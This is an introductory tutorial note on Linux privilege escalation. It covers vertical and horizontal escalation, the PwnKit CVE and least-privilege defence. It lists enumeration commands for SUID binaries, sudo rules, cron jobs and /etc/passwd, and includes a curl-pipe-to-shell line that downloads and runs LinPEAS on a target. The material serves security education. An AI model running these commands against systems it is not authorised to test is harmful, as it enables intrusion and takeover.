

# Day 08 - Privilege Escalation

## What It Is
Privilege Escalation is the process of gaining higher level permissions than what was originally granted on a system. An attacker who gets initial access as a low privilege user will almost always attempt to escalate to root (Linux) or SYSTEM/Administrator (Windows). It's not a single exploit - it's a category of techniques used after initial access to gain full control of a machine.

## How It Works
There are two types:

- Vertical Privilege Escalation: moving from a low privilege user to a higher one (regular user → root)
- Horizontal Privilege Escalation: accessing another user's resources at the same privilege level (user A accessing user B's files)



Common techniques for vertical escalation on Linux:

```bash
# 1. SUID binaries - files that run as root regardless of who executes them
find / -perm -u=s -type f 2>/dev/null

# 2. Sudo misconfigurations - check what you can run as root
sudo -l

# 3. Cron jobs running as root with writable scripts
cat /etc/crontab

# 4. Writable /etc/passwd - can add a new root user
ls -la /etc/passwd

# 5. Kernel exploits - outdated kernels with known CVEs
uname -a
```

If `sudo -l` shows you can run vim as root, you can escape to a shell and get root instantly. GTFOBins is a goldmine for this.

## Real-World Example
In 2021, a vulnerability called **PwnKit (CVE-2021-4034)** was found in `pkexec`, a Linux tool installed by default on almost every major Linux distribution. A local unprivileged user could exploit a memory corruption bug in pkexec to instantly get full root access. It had been present in the code since 2009 — over 12 years — and affected millions of Linux systems worldwide including servers, desktops, and cloud instances.

## Why It Matters
From an attacker's side, initial access rarely comes with root privileges. Privilege escalation is what turns a limited foothold into full system control — allowing them to dump password hashes, install persistent backdoors, disable security tools, and move laterally across the network.

From a defender's side, the principle of least privilege is the core defense — users and services should only have the minimum permissions they need. Regular auditing of SUID binaries, sudo rules, cron jobs, and keeping the kernel patched goes a long way in reducing the attack surface.

## Key Terms
- Privilege Escalation: gaining higher system permissions than originally granted
- SUID (Set User ID): a Linux file permission that allows a file to run with the permissions of its owner, often root
- sudo: a Linux command that lets permitted users run commands as root
- GTFOBins: a curated list of Unix binaries that can be exploited to escalate privileges or escape restricted shells
- Least Privilege: security principle that users and processes should have only the minimum permissions needed to do their job

## One Tip / Tool

Tool: `LinPEAS` — Linux Privilege Escalation Awesome Script, the most widely used privesc enumeration tool

```bash
# download and run LinPEAS on the target machine
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# or transfer it manually and run
chmod +x linpeas.sh
./linpeas.sh
```

LinPEAS automatically checks for SUID binaries, sudo misconfigs, writable cron jobs, exposed credentials, kernel version, and hundreds of other vectors. It color codes results by severity — red/yellow means high chance of privilege escalation.

For Windows targets the equivalent is `WinPEAS` from the same toolkit.
